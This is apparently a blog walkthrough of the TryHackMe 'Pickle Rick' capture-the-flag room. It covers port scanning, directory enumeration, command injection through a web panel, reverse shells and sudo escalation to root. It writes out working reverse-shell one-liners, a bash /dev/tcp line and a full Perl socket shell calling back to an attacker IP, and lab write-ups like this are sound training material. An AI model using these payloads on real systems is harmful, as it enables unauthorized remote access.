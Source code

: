 ```yaml
---
layout: post
title: Pickle Rick Writeup
categories: [TryHackMe]
tags: [Command Injection, Web shell, Directory Enumeration, Dirsearch]
---
```


# Pickle Rick Walkthrough.
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
Check it out here: [TryHackMe](https://www.tryhackme.com/room/picklerick)

# ~$ Preface
  Hey there, I'll be honest this was the first time I used a web shell lol and it was indeed much fun, I'll walk you through how I went about it XD, funfact Rick&Morty has been my go-to fav cartoon since 2015,  eyepatch morty is my buddy and I genuinely have a deep seated hatred for Jerry and his insipidity ;) but as always I'll be leaving hints before I drop the spoilers, and by spoilers I mean the answers lol just kidding you won't find glaring answers here buddy hehee
  ![image](https://images6.alphacoders.com/876/thumb-1920-876893.jpg)
  
# ~$ Hints 
- source page
- command injection?
- web shells
- directory enumeration
- extensions.

A'ight so as always, a port scan first::
```
┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ nmap -sC -sV 10.10.220.220 -Pn -vv -p 1-1024 -T4 -o nmap
Warning: The -o option is deprecated. Please use -oN
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 18:18 WAT
NSE: Loaded 155 scripts for scanning.
Initiating Connect Scan at 18:18
Scanning 10.10.220.220 [1024 ports]
Discovered open port 80/tcp on 10.10.220.220
Not shown: 1022 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:86:91:05:1b:b6:3c:1a:91:a3:6b:a6:fe:a3:28:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOejy/mcAGAdwTSazZu0TOhmJzXnVoAlpDkpPFEnxBppNiIDf11gJkgAz/kNJ/Xzpy5/r4EcBm5VlyD1OHbgp4BB7/+XmWFLIiombdwcGEYrnXJ86DdY8JPu4enMn85mhi2eI8/QwHk5PmaIBufGk6YAdrAunR2T3UfZriuJB4MXQw4ElicxJ+EEuaaMirwhVx8p9i1HqC2c5U95N22y/CBDETIgGZHkZQkMC2HpHREbcs7tTPQdPbv9TSL7Ie0Tvdi6LFAMx2zZmfBprnAUT6DsNvRmu5uyGisQpw4STgwjPVJ/BJInFEHPS25Afv/2BVMfhX3af6yJQA4QPuBKJF
|   256 91:18:52:30:3e:b6:e0:29:0d:72:91:17:b7:64:05:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEehoL4UxfT2BMPVEAxmPHcDhmZhmzE1AD2zqGHtqgDLkdjKE3xMgqVle5l3DNb6D/44/pTyklMJWmPTTY9t8S0=
|   256 d2:1b:90:6d:32:2f:cb:0e:64:af:61:e7:60:34:95:96 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKcg2XsRFJ0X32sAAhVOLEn/LubUccaCEVVDQV6slCHD
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:18
Completed NSE at 18:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.34 seconds
```
Okay, just ssh and http hmph...

Straight up, I visited the site::
![image](/assets/img/posts/Rick&Morty/r&mLanding.png)

Found nothing but a message from rick in dire need of our help to revert back to human... Quickly I view the page source, always view the source! therein I find this commented out:
```
    Note to self, remember username!

    Username: R1ckRul3s   
 ```
 
 Okay Classic rick keeping hidden reminders for himself, I try the username on port 22 and bruteforce the creds with hydra and realized it could only be 2 things: apparently Rick's pass isn't in a wordlist OR the acquired username is not for ssh, while hydra was still trying I resort to my go-to dir enum tool, Dirsearch:)
fire her up and get these hidden directories:
 
 ```
 ┌──(azazel㉿azazel)-[~/Tryhackme/PickleRick]
└─$ dirsearch -u 10.10.220.220 -w /usr/share/wordlists/dirb/common.txt -t 30

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 4613

Output File: /home/azazel/.dirsearch/reports/10.10.220.220_22-04-11_18-52-02.txt

Error Log: /home/azazel/.dirsearch/logs/errors-22-04-11_18-52-02.log

Target: http://10.10.220.220/

[18:52:10] Starting: 
[18:52:19] 301 -  315B  - /assets  ->  http://10.10.220.220/assets/
[18:52:34] 200 -   1KB - /index.html
[18:52:40] 200 -  882B  - /login.php
[18:52:48] 200 -   17B  - /robots.txt
[18:52:50] 403 -  301B  - /server-status

Task Completed
                                        
```
 Nothing much only interesting directory is a login page and the robots.txt, checked that out to see any pages disallowed to be crawled and Instead see Rick's catch phrase
 
 ```
 
 Wub############ub
 
 ```
  ![image](https://media2.giphy.com/media/l41lI4bYmcsPJX9Go/giphy.gif?cid=790b76115528c812b615af1876ff62340969d6ac03f0e5bc&rid=giphy.gif&ct=g)
 
 Welp, we have a username and possibly a pass, but goes where exactly? Found a login page and try the creds there:
 
 ![image](/assets/img/posts/Rick&Morty/rick&mortyloginpage.png)
 
 And then we're greeted with an input field which accepts commands--Command Injection took advantage of this and tried to find and read all the ingredients but there is some sort of input filter that prevents us from reading files with cat, tail, head but not less and find lmao! all of what we need, hehee:
 ![image](/assets/img/posts/Rick&Morty/rick&mortyinputfilter.png)
 
 I could grab all the ingredients through this method but that's no fun! and it also felt somewhat restrictive and defeats the initial access idea.
 Now to upload a shell!

 ![iamge](/assets/img/posts/Rick&Morty/rick&mortydirlis.png)
 
 A classic Bash one liner would work::
```
bash -c >& /dev/tcp/ip/8888 0>&1
```
but I felt like exploring other shell one liners out of curiousity I resorted to trying out Perl, grabbed a Reverse shell one liner from [PentestMonkey](https://pentestmonkey.net/):

```
perl -e 'use Socket;$i="10.8.45.27";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
NB:: Adjust the parameters to receive the shell, you wouldn't to be sending me a shell, would you now?
 
We're in! and now to comfortably read the Sup3rS3cretPickl3Ingred.txt file

```
www-data@ip-10-10-60-92:/var/backups$ cat Sup3rS3cretPickl3Ingred.txt
mr. ###### hair
```
Found the second ingredient in Rick's Home directory::
```
www-data@ip-10-10-60-92:/home/rick$ cat second\ ingredients
1 #### tear
```

And as compensation and horrible security, the www-data user who we are logged in as has sudo permissions to execute EVERYTHING? sheesh!

```
Matching Defaults entries for www-data on ip-10-10-60-92.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on ip-10-10-60-92.eu-west-1.compute.internal:
    (ALL : ALL) ALL
```

To make ourselves root and grab the last ingredient::

```
www-data@ip-10-10-60-92:/home/rick$ sudo su
root@ip-10-10-60-92: cd /root; cat 3rd.txt
```
And that's it! We saved Rick and got to see jerry tears too --the joy:-)
